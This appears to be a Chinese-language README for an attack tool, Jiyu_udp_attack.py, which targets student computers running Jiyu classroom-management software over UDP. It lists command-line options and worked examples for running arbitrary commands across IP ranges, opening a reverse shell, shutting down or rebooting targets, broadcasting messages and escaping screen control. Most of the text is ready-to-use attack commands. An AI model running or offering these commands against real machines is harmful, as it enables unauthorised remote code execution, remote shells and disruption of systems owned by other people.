 # 使用方法：
```
usage:

    ------------------- Github Repositories -------------------
            https://github.com/LightDesignStudio/PowerPro

       [-h] -ip IP [-p P] [-msg MSG] [-c C] [-l L] [-t T]
       [-e {r,s,g,nc,break,continue}]
       {r,s,g,nc,break,continue} ...

positional arguments:
  {r,s,g,nc,break,continue}
                        -e 参数的详细说明
    r                   reboot 重启
    s                   shutdown 关机
    g                   独立选项，获取当前的ip地址以及学生端监听的端口
    nc                  独立选项，反弹shell的机器需出网，退出可使用命令exit
    break               独立选项，脱离屏幕控制，需要管理员权限
    continue            独立选项，恢复屏幕控制

optional arguments:
  -h, --help            show this help message and exit
  -ip IP                ip 指定目标IP地址
  -p P                  port 指定监听端口，默认端口为4705
  -msg MSG              send_message发送消息 eg: -msg "HelloWord!"
  -c C                  command命令 eg: -c "cmd.exe /c ipconfig"
  -l L                  循环次数，默认为1
  -t T                  循环时间间隔，默认是22秒
  -e {r,s,g,nc,break,continue}
                        Extra Options加载额外的选项 eg：-e r
          
```

## 使用例子

### Tips:
使用 **-ip** 参数指定目标IP时，可以有以下几种指定方式：
- 指定单个IP，如  192.168.80.12
- 指定IP范围，如 192.168.80.10-56
- 指定IP所在C段，如 192.168.80.1/24



### 1.获取内网ip地址及监听的端口
若学生端监听端口不是默认的**4705**，则在后续操作过程中需使用 **-p** 参数指定端口
```
python Jiyu_udp_attack.py -e g
```

### 2.脱离屏幕控制
当前运行权限需为管理员权限，主要用于开启MpsSvc服务
```
python Jiyu_udp_attack.py -e break
```

### 3.恢复屏幕控制
```
python Jiyu_udp_attack.py -e continue
```

### 4.发送消息
若学生端监听端口为**4705**，向IP地址为192.168.80.12的机器发送一条内容为"hello,baby!"的消息
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -msg "hello,baby!"

```

若学生端监听端口为**4605**，需使用 **-p** 参数指定端口，向IP地址为192.168.80.12的机器发送一条内容为"hello,baby!"的消息
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -p 4605 -msg "hello,baby!"

```

### 5.执行命令
给192.168.80.12到192.168.80.137弹一个计算器
```
python Jiyu_udp_attack.py -ip 192.168.80.12-137 -c calc.exe
```

### 6.反弹shell
反弹shell时，IP只能为某个机器IP，不能批量反弹，而且机器需要出网<br>
因为已经实现批量的任意命令执行，考虑到批量反弹也没啥意义，遂不添加
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -e nc
```

### 7.关机重启
关机
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -e s
```
重启
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -e r
```

### 8.循环
利用循环持续发送消息<br>
1-254的机器会收到一条"hello,baby!"的消息，50s后会继续执行，共执行3次
```
    python Jiyu_udp_attack.py -ip 192.168.80.23/24 -msg "hello,baby!" -l 3 -t 50
```





